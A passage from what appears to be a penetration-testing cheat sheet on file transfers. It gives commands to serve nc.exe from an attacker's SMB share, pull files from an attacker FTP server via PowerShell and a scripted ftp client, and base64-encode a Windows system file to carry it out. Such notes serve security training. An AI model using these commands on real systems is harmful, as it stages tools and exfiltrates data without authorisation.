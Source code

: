If guest access blocked, create server with credentials:
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
net use n: \\192.168.220.133\share /user:test test
copy n:\nc.exe
```

---

### FTP Downloads

Run Python FTP server (`pyftpdlib`) on attacker:

```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21
```

From Windows target (PowerShell):
```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt','C:\Users\Public\ftp-file.txt')
```

Non-interactive `ftp` client:
```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

---

## Upload Operations

### PowerShell Base64 Encode (Upload from Windows)

```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5
```

Decode on Linux:
```bash
echo "<base64>" | base64 -d > hosts
md5sum hosts
```

---

### PowerShell Web Upload (uploadserver)
